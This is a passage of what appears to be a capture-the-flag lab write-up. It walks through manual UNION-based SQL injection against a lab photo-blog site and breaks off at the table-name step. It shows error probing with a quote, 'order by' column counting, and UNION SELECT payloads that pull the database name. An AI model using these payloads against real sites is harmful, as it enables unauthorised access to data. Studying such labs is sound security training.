 ## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5ddbab7b-1bb5-4914-b37f-71c5129453cd)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2b60418f-1992-403a-bce9-27b56c4855a7)

Click on "pool", you should get this url

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28ae9253-baa2-43cd-a9c2-ee6c777bc70c)

Checking if it is vulnerable to SQLi, just add ```'``` at the back of ```3```. This should trigger a SQL error

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0390bd99-c07c-4037-a3c6-ac89a1ee19ab)

We'll be exploiting this from the webpage

Lets check for the number of columns available in the database. We can use the query
```sql
order by 1 -- 
order by 2 --
order by 3 --
```
Using these queries

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57db1a3f-b189-4daa-8fad-c7f4557ddf29)

This means we don't have a 5th column in the database, which means we have just 4 columns.

Lets check for the column that is compatible with string data, that is the vulnerable column. We can use the query
```sql
AND 0 UNION SELECT 1,2,3,4-- -
```
This query should return the vulnerable column

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28f96a6b-74b3-4908-b94a-46cb40721d01)

We can see that column 2 is the vulnerable one. 

Checking for the name of the database, we can use the query
```sql
UNION SELECT 1,database(),3,4-- -
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0a2d3138-b00a-4419-a5df-908f13d485f7)

We got the name of the database to be ```photoblog```

Checking for the "tablename", we can use the query


































